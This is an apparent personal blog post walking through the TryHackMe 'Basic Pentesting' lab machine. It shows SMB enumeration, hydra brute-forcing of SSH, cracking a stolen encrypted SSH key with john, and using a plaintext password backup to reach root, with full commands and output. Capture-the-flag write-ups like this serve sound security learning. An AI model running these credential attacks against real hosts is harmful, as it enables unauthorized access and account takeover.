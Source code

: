 ```yaml
---
layout: post
title:  "Update 11 June 2021"
date:   2021-06-11 20:30:00 +1000
category: hacking
---
```


## CAP
I did CAP from HTB. It's active so no writeup. It's probably the easiest modern HTB machine I've done. No new releases from VulnHub lately. I also did [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) and yes it was basic.

We have SSH, SMB and a webserver. We've got anonymous access on the SMB and we can get a username; it hints that we can upload but that's not something we end up doing:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/basic]
└─# smbclient -L //10.10.142.44
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# smbclient  //10.10.142.44/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
get
                14318640 blocks of size 1024. 10822624 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# cat staff.txt           
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
{% endhighlight %}

With our username, we can bruteforce SSH:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/basic]
└─# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.142.44
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 07:37:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.142.44:22/
[STATUS] 172.00 tries/min, 172 tries in 00:01h, 14344228 to do in 1389:57h, 16 active
[STATUS] 112.33 tries/min, 337 tries in 00:03h, 14344063 to do in 2128:12h, 16 active
[STATUS] 105.71 tries/min, 740 tries in 00:07h, 14343660 to do in 2261:24h, 16 active
[22][ssh] host: 10.10.142.44   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-11 07:45:02
{% endhighlight %}

And from there we can SSH in as Jan. We can read files in Kay's home, including her (encrypted) SSH private key which we can then crack and login as Kay:

{% highlight shell %}
# on the box
jan@basic2:/home/kay/.ssh$ ls -lash
total 20K
4.0K drwxr-xr-x 2 kay kay 4.0K Apr 23  2018 .
4.0K drwxr-xr-x 5 kay kay 4.0K Apr 23  2018 ..
4.0K -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
4.0K -rw-r--r-- 1 kay kay 3.3K Apr 19  2018 id_rsa
4.0K -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/home/kay/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
# key goes here, cut for brevity
jan@basic2:/home/kay/.ssh$ 

# in kali

┌──(root💀kali)-[/opt/thm/basic]
└─# locate ssh2john                      
/usr/share/john/ssh2john.py
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# python /usr/share/john/ssh2john.py key > key.john         
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# john key.john -w=/usr/share/wordlists/rockyou.txt             
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (key)
1g 0:00:00:03 DONE (2021-06-11 07:48) 0.2695g/s 3865Kp/s 3865Kc/s 3865KC/sa6_123..*7¡Vamos!
Session completed
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# chmod 600 key   
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/basic]
└─# ssh -i key kay@10.10.142.44          
Enter passphrase for key 'key': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2
{% endhighlight %}

We get Kay's password backup, and then we can get root:

{% highlight shell %}
kay@basic2:~$ ls -lash
total 48K
4.0K drwxr-xr-x 5 kay  kay  4.0K Apr 23  2018 .
4.0K drwxr-xr-x 4 root root 4.0K Apr 19  2018 ..
4.0K -rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
4.0K -rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
4.0K -rw-r--r-- 1 kay  kay  3.7K Apr 17  2018 .bashrc
4.0K drwx------ 2 kay  kay  4.0K Apr 17  2018 .cache
4.0K -rw------- 1 root kay   119 Apr 23  2018 .lesshst
4.0K drwxrwxr-x 2 kay  kay  4.0K Apr 23  2018 .nano
4.0K -rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
4.0K -rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
4.0K drwxr-xr-x 2 kay  kay  4.0K Apr 23  2018 .ssh
   0 -rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
4.0K -rw------- 1 root kay   538 Apr 23  2018 .viminfo
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$ sudo su
root@basic2:/home/kay# cd /root
root@basic2:~# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
basic2
Fri Jun 11 07:50:04 EDT 2021
root@basic2:~#
{% endhighlight %}

Now I've got to go watch the footy. Man I'm really phoning in these writeups.
